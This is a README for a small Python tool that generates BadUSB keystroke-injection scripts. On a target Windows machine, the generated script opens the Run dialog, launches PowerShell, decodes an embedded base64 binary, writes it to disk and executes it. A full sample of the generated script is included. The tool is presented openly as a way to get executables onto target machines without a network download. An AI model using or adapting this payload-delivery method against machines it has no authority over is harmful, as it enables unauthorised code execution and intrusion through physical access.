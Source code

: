 # BadUSBBinFilePS
Small program for generating BadUSB script that generates binary files in Python

![Screenshot](https://github.com/James-P-D/BadUSBBinFilePS/blob/main/screenshot.gif)

## Introduction

When using BadUSB it is sometimes necessary to get a binary file onto the target machine. Unless the ducky device you are using can double up as an HID input *and* an external drive, you typically need to download the binary file from some online source, usually over HTTP(S). As a workaround for this, I decided to create a short Python script which could generate a BadUSB script which included the base64-encoded data for the binary file and was decoded in Powershell.

## Usage

Running the script with arguments produces:

```
Python main.py BINARY_FILE OUTPUT_BAD_USB_FILE
E.G.
Python main.py helloworld.exe bad_usb_test.txt
```

So to run it simply supply the arguments for the binary file to encode, and name of the BadUSB script file to be created.

The outputted file will look something like this:

```
GUI r
DELAY 500
STRING powershell
ENTER
STRING $b64str = 'TVqQAAMAAAAEAAAA.....[Lots more data]'
ENTER
STRING $bytes = [Convert]::FromBase64String($b64str)
ENTER
DELAY 500
STRING [io.file]::WriteAllBytes('helloworld.exe', $bytes)
ENTER
DELAY 500
STRING ./helloworld.exe
ENTER
```

When run on the target Windows machine it will <kbd>WIN</kbd>+<kbd>r</kbd> to open the 'run' dialog, then start `powershell`, then decode the base64-encoded data and save to file, and then finally run the executable.